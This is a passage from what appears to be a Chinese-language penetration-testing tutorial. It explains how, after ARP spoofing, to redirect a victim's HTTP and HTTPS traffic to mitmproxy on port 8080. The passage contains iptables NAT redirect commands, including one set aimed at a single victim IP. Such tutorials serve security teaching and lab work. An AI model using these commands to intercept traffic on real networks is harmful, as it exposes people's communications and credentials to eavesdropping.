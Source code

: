 mitmproxy 会默认将 8080 端口作为 http/https 流量的监听端口

## 重定向 HTTP/HTTPS 流量

工具已经准备完成，下一步是将受害者发往 80 端口和 443 端口（或发往其他端口的 https 流量）的流量重定向至攻击者的 8080 端口

### 重定向 arp 欺骗后流量

如果前期**完成了 arp 欺骗**，劫持了受害者的所有流量，则直接通过防火墙修改本机的流量转发规则即可

```bash
# 将 eth0 网卡的所有访问 80 和 443 流量转发至 8080 端口
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080

# 只转发指定 IP 的流量
iptables -t nat -A PREROUTING -s 192.168.243.128 -p tcp --dport 80 -j REDIRECT --to-ports 8080
iptables -t nat -A PREROUTING -s 192.168.243.128 -p tcp --dport 443 -j REDIRECT --to-ports 8080
```

重定向后，受害者访问流量即可被我们抓获

[![](assets/1701606977-c70c2851bdc875be0169712d8d04def6.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230923200220-0c4165cc-5a09-1.png)
